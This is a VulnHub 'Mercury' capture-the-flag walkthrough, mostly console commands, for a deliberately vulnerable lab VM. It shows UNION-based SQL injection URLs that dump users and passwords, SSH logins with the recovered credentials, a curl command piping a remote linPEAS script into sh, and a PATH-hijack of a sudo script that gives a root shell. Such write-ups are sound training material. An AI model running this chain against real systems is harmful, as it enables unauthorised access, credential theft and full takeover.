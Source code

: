 # Mercury, VulnHub walkthrough

## SQL injection
### Step 1
```console
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT id from users--/
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
```
### Step 2
```console
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/

 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
 ```
 ## SSH webmaster, find encoded passwords
```console
cd mecury_proj/
ls
cat notes.txt
 ```
 ## Base64 decode the password
```console
 ┌─[alienum@parrot]─[~/Desktop]
└──╼ $echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
```
## SSH linuxmaster
```console
linuxmaster:mercurymeandiameteris4880km

linuxmaster@mercury:~$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
	
	
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

linuxmaster@mercury:~$ echo "/bin/bash" > tail
linuxmaster@mercury:~$ chmod 777 tail
linuxmaster@mercury:~$ export PATH=.:$PATH
linuxmaster@mercury:~$ sudo PATH=$PATH /usr/bin/check_syslog.sh
root@mercury:/home/linuxmaster#
```
